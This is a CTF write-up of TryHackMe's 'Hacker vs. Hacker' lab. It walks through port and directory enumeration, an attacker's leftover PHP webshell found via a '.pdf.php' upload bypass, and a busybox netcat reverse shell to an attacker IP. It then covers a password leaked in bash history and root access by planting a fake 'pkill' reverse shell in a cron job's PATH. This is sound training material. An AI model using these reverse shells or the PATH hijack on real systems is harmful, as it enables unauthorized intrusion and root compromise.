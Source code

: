 ```yaml
---
title: "Hacker vs. Hacker"
date: 2025-02-13
image: /assets/img/tryhackme/Hackervshacker/Hackervshacker_image.jpg
description: Writeup of the TryHackMe-CTF Hacker vs. Hacker
categories: [TryHackMe, Easy]
tags: [linux, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Hacker vs. Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Someone has compromised this server already! Can you get in and evade their countermeasures?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/hackervshacker">https://tryhackme.com/room/hackervshacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Hacker vs. Hacker.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:27 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 22.96 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.103.67
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-13 09:28 EST
  Nmap scan report for 10.10.103.67
  Host is up (0.039s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
  |   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
  |_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: RecruitSec: Industry Leading Infosec Recruitment
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

While manually analyzing the website, I found a comment in the source code:
```html
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

The website also provided an upload functionality for CV's as well. Which means uploaded CV's will be stored in the `/cvs` subdirectory. I tried to upload valid files, a PHP webshell, and other stuff, but I always received the following message:
```text
Hacked! If you dont want me to upload my shell, do better at filtering!
```
quick check of the source code revealed some interesting details:
```html
<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

With this in mind I tried a pdf file, but got the same error. The attacker seems to have disabled the upload function but already used it for initial access. The code only checks for one occurrence of `.pdf` so the name of the shell could be like `something.pdf.php`:

```bash
$ ffuf -u http://10.10.103.67/cvs/FUZZ.pdf.php -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt 

          /'___\  /'___\           /'___\       
         /\ \__/ /\ \__/  __  __  /\ \__/       
         \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
          \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
           \ \_\   \ \_\  \ \____/  \ \_\       
            \/_/    \/_/   \/___/    \/_/       

         v2.1.0-dev
  ________________________________________________

   :: Method           : GET
   :: URL              : http://10.10.103.67/cvs/FUZZ.pdf.php
   :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt
   :: Follow redirects : false
   :: Calibration      : false
   :: Timeout          : 10
   :: Threads          : 40
   :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
  ________________________________________________

shell                   [Status: 200, Size: 18, Words: 1, Lines: 2, Duration: 44ms]
```

Fuff helped to find it real quick. That seems like a regular PHP webshell one-liner:

![Web Shell](/assets/img/tryhackme/Hackervshacker/thm_hackervshacker_1.jpg)

I used it to get a reverse shell using `busybox` 

```html
http://10.10.103.67/cvs/shell.pdf.php?cmd=busybox nc [attackerip] 9001 -e sh
```

While trying to stabilize the shell with Python, the word `nope` appeared, and my `PTY` was terminated. It appears that there is a mechanism in place to prevent stabilization or the initiation of `PTY` sessions. But I was able to collect the user flag anyway:

```bash
www-data@b2r:/var/www/html/cvs$ nope
cd /home
ls
lachlan
cd lachlan
ls
bin
user.txt
cat user.txt 
thm{[removed]}
```

## Privilege Escalation lachlan

From this point, I attempted to escalate privileges to the user `lachlan`. I found something interesting in the `bash_history` of the user:

```bash
cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n[removed]\n[removed]" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

The user changed their password in an insecure manner. From here ssh isn't possible because the shell gets closed again instantly with a `nope`. After researching the `ssh` command, I discovered that `ssh` does not create a PTY session when using the `-T` flag.

## Privilege Escalation root

While searching for a way to gain root access, I found a cron job file named `persistence`:

```bash
cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

The path for the execution is `/home/lachlan/bin` which is under control. Since the `pkill` command is not referenced by its full path, we can exploit this by creating our own executable:

```bash
pwd
	/home/lachlan/bin
echo "busybox nc [attackerip] 9002 -e sh" > pkill
chmod 777 pkill
```

I then started a `netcat` listener and waited for the incoming connection:

```bash
$ nc -lnvp 9002
listening on [any] 9002 ...
connect to [attackerip] from (UNKNOWN) [10.10.103.67] 37212
whoami
root
cat /root/root.txt
thm{[removed]}
```

solved! :)

